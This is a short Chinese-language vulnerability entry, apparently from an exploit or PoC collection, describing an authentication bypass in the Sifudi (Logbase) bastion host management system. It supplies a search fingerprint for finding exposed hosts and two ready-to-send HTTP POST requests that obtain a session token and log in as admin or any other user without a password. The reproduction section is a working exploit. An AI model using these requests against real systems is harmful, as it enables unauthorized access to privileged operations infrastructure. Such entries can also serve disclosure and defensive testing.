

思福迪堡垒机 任意用户登录漏洞¶
漏洞描述¶
思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任 意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。
漏洞影响¶
思福迪堡垒机
网络测绘¶
"Logbase运维安全管理系统"
漏洞复现¶
获取INFO字段，u1参数值为⽤户名
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
获得：{"result":true,"info":"1562205376847","ErrMsg":""}
带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
利用后即可登录后台
